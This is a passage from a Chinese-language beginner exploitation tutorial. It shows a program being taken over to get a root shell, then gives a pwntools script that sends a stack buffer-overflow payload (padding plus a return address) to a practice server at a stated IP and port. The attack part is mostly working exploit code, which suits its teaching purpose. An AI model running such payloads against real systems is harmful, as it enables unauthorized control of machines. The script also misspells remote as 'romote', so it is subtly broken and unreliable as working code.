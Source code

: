 可以看到我们已经返回了shell,这意味着我们拿到了这台机器的控制权限,加入这个程序的owner是root的话,我们就会获得root权限.

这个时候,按照传统,我们要输入一条神圣的指令来证明我们的身份:

```sh
> whoami
```

![a2](./pic/a2.png)

&emsp;&emsp;很酷是不是,一下子就获得上帝的权限,root就是linux中的上帝,掌握一切生杀大权,到此为止,你已经拿下了你的第一台主机了.

接下来我会把之前提到的那个样例程序放到服务器上供你们娱乐,你么可以尝试练习一下.

关于exp连接远端的方式:

```python
#!	/usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = romote('202.204.62.222',30008) # 只需要修改这一句话,填写对应的ip地址和端口 remote('ip', port)
#sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互
```


